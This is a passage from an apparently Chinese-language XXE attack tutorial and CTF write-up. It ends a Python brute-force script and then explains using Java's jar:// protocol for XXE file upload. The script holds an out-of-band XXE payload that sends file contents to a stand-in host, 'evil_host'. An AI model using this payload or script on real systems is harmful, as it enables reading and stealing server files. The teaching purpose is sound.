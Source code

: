    ```php
                   <!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://evil_host/?result=%file;'>">
                   %all;
                   %send;""".format('_'*i+chr(j)+'_'*(27-i))
                   f.write(payload2)
                   f.close()
                   print 'test {}'.format(chr(j))
                   r = s.post(url,data=data)
                   if "Oti3a3LeLPdkPkqKF84xs=" in r.content and chr(j)!='_':
                           result += chr(j)
                           print chr(j)
                           break
   print result
   ```

   这道题难度比加大，做起来也非常的耗时，所有的东西都要靠脚本去猜，因此当时是0解

   ### **实验六：文件上传**

   我们之前说的好像都是 php 相关，但是实际上现实中很多都是 java 的框架出现的 XXE 漏洞，通过阅读文档，我发现 Java 中有一个比较神奇的协议 jar:// ， php 中的 phar:// 似乎就是为了实现 jar:// 的类似的功能设计出来的。

   **jar:// 协议的格式：**

   ```
   jar:{url}!{path} 
   ```

   **实例：**

   ```
   jar:http://host/application.jar!/file/within/the/zip
   
   这个 ! 后面就是其需要从中解压出的文件
   ```

   jar 能从远程获取 jar 文件，然后将其中的内容进行解压，等等，这个功能似乎比 phar 强大啊，phar:// 是没法远程加载文件的（因此 phar:// 一般用于绕过文件上传，在一些2016年的HCTF中考察过这个知识点，我也曾在校赛中出过类似的题目，奥，2018年的 blackhat 讲述的 phar:// 的反序列化很有趣，Orange 曾在2017年的 hitcon 中出过这道题）

   **jar 协议处理文件的过程：**

   (1) 下载 jar/zip 文件到临时文件中

   (2) 提取出我们指定的文件

   (3) 删除临时文件

   > **那么我们怎么找到我们下载的临时文件呢？**
   >
   > 因为在 java 中 file:/// 协议可以起到列目录的作用，所以我们能用 file:/// 协议配合 jar:// 协议使用

   下面是我的一些测试过程：

   我首先在本地模拟一个存在 XXE 的程序，网上找的能直接解析 XML 文件的 java 源码

   **示例代码：**

   **xml_test.java**

   ```java
   package xml_test;
   import java.io.File;
   
   import javax.xml.parsers.DocumentBuilder;
   import javax.xml.parsers.DocumentBuilderFactory;
   
   import org.w3c.dom.Attr;
   import org.w3c.dom.Comment;
   import org.w3c.dom.Document;
   import org.w3c.dom.Element;
   import org.w3c.dom.NamedNodeMap;
   import org.w3c.dom.Node;
   ```